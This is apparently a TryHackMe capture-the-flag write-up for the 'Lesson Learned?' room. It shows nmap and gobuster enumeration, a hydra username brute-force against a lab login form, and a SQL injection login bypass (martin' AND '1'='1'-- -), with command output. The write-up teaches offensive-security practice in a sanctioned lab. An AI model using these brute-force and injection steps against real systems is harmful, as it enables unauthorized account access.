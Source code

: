 ```yaml
---
title: Lesson Learned? - TryHackMe Write-Up
date: 2024-11-04
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
tags:
  - CTF
  - TryHackMe
---
```

![Image 0](./0.webp)
Today we're going to take a look at [Lesson Learned?](./https://tryhackme.com/r/room/lessonlearned) room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.
![Screenshot 1](./1.webp)

### Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

### OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.
![Screenshot 2](./2.webp)

_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088)_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)

### Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

### SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.
![Screenshot 4](./4.webp)

And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
![Screenshot 5](./5.webp)